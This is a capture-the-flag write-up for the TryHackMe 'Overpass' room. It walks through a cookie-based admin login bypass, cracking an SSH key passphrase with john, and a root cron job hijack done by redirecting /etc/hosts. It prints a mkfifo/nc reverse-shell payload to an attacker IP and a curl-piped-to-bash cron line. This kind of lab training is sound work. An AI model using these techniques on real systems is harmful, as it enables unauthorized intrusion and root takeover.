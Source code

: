 # Overpass (THM)

- https://tryhackme.com/room/overpass
- March 2, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
2. 80/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

- check http
- download buildscript.sh and overpass.go files.
- analyse overpass.go file

  - passListEntry -> name, pass
  - rot47 encrypt
  - save credentials to file
  - load credentials from file and check username, password
  - credentials are stored as json format
  - CRUD data
  - save file in ~/.overpass file

- enumerate directories

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [4713/4713] :: Job [1/1] :: 114 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
```

- from admin page, download 3 javascript files
- nothing special in main.js
- from login.js

```javascript
...
async function login() {
    // ...
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

- try to set cookie "SessionToken:anyvalue" in admin page

```sh
$ curl http://$IP/admin/ -H "Cookie: SessionToken=anyvalue"
```

- get private key and save as id_rsa
- enter ssh with id_rsa
- username ?? -> try with root, need to find usernames from webpage
- change permission 600 to id_rsa
- need passphrase
- crack with john

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forjohn
$ john forjohn
```

- passphrase - `james13`
- username - james ??

```sh
$ ssh james@$IP -i id_rsa
```

- can enter as james user
- `sudo -l` -> password `james13` is not correct
- found .overpass file in his folder

```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

- decrypt rot47 at cyberchef

```json
[{ "name": "System", "pass": "saydrawnlyingpicture" }]
```

- there is no username System. Try to change user from `/etc/passwd` file
- it is james' password
- try to run linpeas
- Interesting outputs

```
# cronjob
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- and

```sh
james@overpass-prod:/tmp$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

- can I make a server like this directory and put reverse shell to buildscript.sh in my own server
- change my IP to overpass.thm in /etc/hosts file as it has rw access
- In my machine,

```sh
$ mkdir -p downloads/src/
$ touch downloads/src/buildscript.sh
```

- inside buildscript.sh,

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- make a server with python

```sh
python -m http.server 80
```

- listen with nc at 4242
- then change `/etc/hosts` file in victim machine
- original `/etc/hosts` -> `127.0.0.1 overpass.thm`

```
10.11.8.57 overpass.thm
```

![](images/2023-03-02-23-05-10.png)

---
